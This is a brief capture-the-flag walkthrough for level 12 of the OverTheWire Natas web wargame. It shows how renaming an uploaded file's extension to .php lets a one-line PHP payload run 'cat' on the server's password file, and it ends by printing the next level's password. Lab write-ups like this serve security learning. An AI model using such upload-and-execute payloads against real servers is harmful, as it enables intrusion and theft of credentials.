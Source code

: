 # Natas 12

Link : http://natas12.natas.labs.overthewire.org/

Natas 12 screen :

<img src="imgs/natas12.png" alt="Natas12 screnn">


Natas 12 source code :


<img src="imgs/url_natas12.png" alt="url Natas12">

Payload : 

```php
echo exec("cat /etc/natas_webpass/natas13");
```
Change the type file of the file to upload :

<img src="imgs/natas12_jpgtophp.png" alt="jgp to png">

And finally you get the answer:

<img src="imgs/natas12_sol.png">


So the password for Natas 13 is : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY